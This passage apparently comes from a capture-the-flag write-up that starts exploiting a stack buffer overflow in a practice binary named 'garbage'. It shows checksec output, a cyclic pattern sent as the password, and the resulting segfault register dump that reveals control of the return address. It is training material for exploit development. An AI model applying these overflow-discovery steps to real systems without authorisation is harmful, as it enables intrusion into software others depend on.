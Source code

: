 * Execute `checksec`:

```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

The output can be interpreted as follows:

* `CANARY`: Stack canary
* `FORTIFY`: Buffer overflow detection
* `NX`: Non-Executable stack
* `PIE`: Position-independent executable (ASLR)
* `RELRO`: Relocation Read-Only (prevents GOT from being overwritten)

In our case, `NX` is enabled, therefore we cannot put shellcode on the stack. This means we probably need to use ROP gadgets or return to PLT or do whatever other binary magic exist that I do not yet know about...

* Create a 200 chars long pattern (totally sufficient) with `pattern_create`:

```bash
gdb-peda$ pattern_create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
```

* Throw that at the binary by running it and entering that string as access password:

```bash
gdb-peda$ r
Starting program: **REDACTED**/ellingson/exploit/garbage
Enter access password: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

access denied.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ed9804 (<__GI___libc_write+20>:    cmp    rax,0xfffffffffffff000)
RDX: 0x7ffff7fac8c0 --> 0x0
RSI: 0x4059c0 ("access denied.\nssword: ")
RDI: 0x0
RBP: 0x6c41415041416b41 ('AkAAPAAl')
RSP: 0x7fffffffe078 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
RIP: 0x401618 (<auth+261>:      ret)
R8 : 0x7ffff7fb1500 (0x00007ffff7fb1500)
R9 : 0x7ffff7fab848 --> 0x7ffff7fab760 --> 0xfbad2a84
R10: 0xfffffffffffff638
R11: 0x246
R12: 0x401170 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe170 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40160d <auth+250>: call   0x401050 <puts@plt>
   0x401612 <auth+255>: mov    eax,0x0
   0x401617 <auth+260>: leave
=> 0x401618 <auth+261>: ret
```